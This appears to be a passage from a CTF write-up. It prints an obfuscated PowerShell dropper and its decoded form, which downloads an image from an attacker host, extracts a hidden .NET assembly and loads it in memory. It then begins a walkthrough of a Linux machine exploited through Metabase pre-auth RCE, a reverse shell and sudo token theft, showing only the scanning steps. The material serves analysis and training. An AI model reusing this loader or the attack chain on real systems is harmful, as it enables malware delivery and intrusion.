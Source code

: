 ```powershell
$Codigo = 'JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5ADgANwA2ADIANgA0ADIALgBqAHAAZwAnADsAJAB3AGUAYgBDAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ADsAJABpAG0AYQBnAGUAQgB5AHQAZQBzACAAPQA ...SNIP... WAHQAUABYAFIAcwBZAFQAOQAwAGUASABRAHUAYwBtAFYAbQBjADIANQBoAGMAbgBRAHYAYgB5ADkAdABiADIATQB1AGQARwA5AHcAYwAzAEIAdwBZAFMANQBtAE8AVABOAGoATgBpADEAbgBiAG0AbAByAFkAMgBGAG8ATAAyAEkAdgBNAEgAWQB2AGIAVwA5AGoATABuAE4AcABjAEcARgBsAGIARwBkAHYAYgAyAGMAdQBaAFcAZABoAGMAbQA5ADAAYwAyAFYAegBZAFcASgBsAGMAbQBsAG0ATAB5ADgANgBjADMAQgAwAGQARwBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA='

powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo))
```
The Base64 data decodes to:
```js
$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';
$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);
$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;

$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);
$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');
$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu'))
```
The script downloads an image from `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` and decodes the Base64 data inside the markers. We can download the image from the previously found link and decode the final part between `<<BASE64_START>>` and `<<BASE64_END>>`.

By decoding it we can get the flag at the end of the string.


## Fullpwn: Apethanto (Easy)
### Description
Apethanto is an Easy Linux machine hosting a Metabase instance that is vulnerable to pre-authentication Remote Code Execution (RCE). By finding the exposed setup-token, the attacker leverages the vulnerability to obtain a reverse shell on the target. Once the attacker gets a shell on the remote machine as the user metabase he may notice that there is a cron that executes sudo apt update from a different TTY terminal. This means, that the user metabase has an active SUDO token. Since the user belongs to the sudo group, the attacker is able to steal the valid SUDO token in order to get root privileges.

### Enumeration
```console
$ rustscan -a 10.129.240.39 -- -A -sC
```
The scan output informs us that Nginx and SSH are the only available services listening on port 80 and 22 respectively, and we get redirected to `apethanto.htb` when visiting the website on port 80. Let's add this to our hosts file.
```console
$ echo "10.129.240.39 apethanto.htb" | sudo tee -a /etc/hosts
```
The page appears mostly static, but hovering over the "For Doctors" hyperlink or inspecting the site's source code reveals a hyperlink to a metabase virtual host, which we can add to our hosts file.
```console
$ echo "10.129.240.39 metabase.apethanto.htb" | sudo tee -a /etc/hosts
```